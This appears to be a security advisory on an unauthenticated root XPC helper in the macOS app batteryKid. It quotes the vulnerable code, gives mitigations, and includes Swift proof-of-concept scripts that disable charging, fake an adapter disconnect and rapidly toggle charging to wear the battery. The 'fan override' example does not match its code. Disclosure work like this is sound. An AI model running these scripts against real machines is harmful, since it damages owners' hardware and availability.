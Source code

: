 # Local privilege abuse via unauthenticated XPC access to root SMC helper on macOS

## Summary

batteryKid for macOS registers a root-privileged XPC helper (`me.alaneuler.batteryKid.PrivilegeHelper`) that exposes unauthenticated methods to read and write SMC (System Management Controller) keys. Any local user can connect to this helper and perform privileged hardware operations, such as disabling charging or disconnecting the power adapter, without any authorization checks. This can lead to denial of service, degraded hardware performance, and potential battery wear.


## Technical Details

The vulnerable implementation is located in:
- [PrivilegeHelper.swift](https://github.com/alaneuler/batteryKid/blob/79af27c5e62b00dc5a09ddf5dadf61f38100f131/PrivilegeHelper/PrivilegeHelper.swift)
- [SMC.swift](https://github.com/alaneuler/batteryKid/blob/79af27c5e62b00dc5a09ddf5dadf61f38100f131/PrivilegeHelper/SMC.swift)

The privileged helper runs as root and registers a Mach service (`me.alaneuler.batteryKid.PrivilegeHelper`) using NSXPCListener. It then unconditionally accepts all incoming connections:

```swift
  func listener(
    _: NSXPCListener,
    shouldAcceptNewConnection newConnection: NSXPCConnection
  ) -> Bool {
    newConnection.exportedInterface = NSXPCInterface(with: HelperProtocol.self)
    newConnection
      .remoteObjectInterface = NSXPCInterface(with: RemoteApplicationProtocol
        .self)
    newConnection.exportedObject = self
    newConnection.resume()
    return true
  }
```

No validation (such as auditToken or code signing) is performed. 

The helper then exposes functions like:

```
func disableCharging(completion: @escaping (Int) -> Void)
func enableCharging(completion: @escaping (Int) -> Void)
func disablePowerAdapter(completion: @escaping (Int) -> Void)
func enablePowerAdapter(completion: @escaping (Int) -> Void)
```

This writes directly to low-level SMC keys such as:

- `CH0B`: battery charging state (0 = charging, 2 = not charging)
- `CH0I`: AC adapter presence (0 = present, 1 = disconnected)
- `F0Mn`: fan minimum RPM (setting to 0 disables fan)
- `F0Mx`: fan max speed (setting too high stresses fans)

There is no authentication, no sandboxing, and no validation of the calling client. Any local process can connect to the MachService and issue dangerous SMC writes via exposed methods.

## Proof-of-Concepts

You can interact with the XPC service from any unprivileged local process using `pc_connection_create_mach_service()` or `NSXPCConnection`, as long as the Mach service is registered.

#### Fan Override (Force 0 RPM Fan)

>This script sets the minimum fan speed to 0, causing overheating risks.

```swift
import Foundation
import BatteryKidXPC  // assumes the helper client interface is accessible

let connection = NSXPCConnection(machServiceName: "me.alaneuler.batteryKid.PrivilegeHelper", options: [])
connection.remoteObjectInterface = NSXPCInterface(with: HelperProtocol.self)
connection.resume()

let helper = connection.remoteObjectProxyWithErrorHandler { error in
    print("XPC Error: \(error)")
} as? HelperProtocol

helper?.disableCharging { result in
    print("disableCharging returned: \(result)")
}

sleep(1)

helper?.enablePowerAdapter { result in
    print("enablePowerAdapter returned: \(result)")
}

sleep(1)

helper?.disablePowerAdapter { result in
    print("disablePowerAdapter returned: \(result)")
}
```

You could expand this by modifying the helper to expose an XPC method like `setFanMinRPM(value: Int)` which internally writes to SMC key `F0Mn`.

#### Proof-of-Concept disable battery charging

>This PoC alternates SMC register CH0B rapidly to damage charging behavior.

```swift
for _ in 0..<100 {
    helper?.disableCharging { _ in }
    usleep(50000) // 50ms
    helper?.enableCharging { _ in }
    usleep(50000)
}
```

Over time, this could degrade the battery and confuse firmware logic, especially on older Macs where SMC state is more fragile.

#### Fake Power Adapter Disconnect

>This makes the system believe the AC adapter is unplugged, even if it’s not.
```swift
helper?.disablePowerAdapter { result in
    print("System now believes it's on battery power.")
}
```

## Impact

A local, unprivileged attacker can:

- Disable battery charging
- Disconnect the power adapter virtually
- Potentially damage battery health or trigger thermal throttling
- Cause denial of service on laptops (by draining battery)

This breaks macOS’s security boundary between user and system-level operations.

## Mitigation

**Recommended fixes:**

1. Enforce connection validation
Use auditToken in shouldAcceptNewConnection() to restrict access to trusted, signed client apps.

2. Restrict exposed methods
Only expose a minimal, readonly subset of functions to non-privileged clients (if any at all).

3. Add authentication logic
Consider a signed message protocol or authentication handshake before accepting requests.

4. Use SMJobBless properly
Only allow elevated operations after proper user consent and authorization.
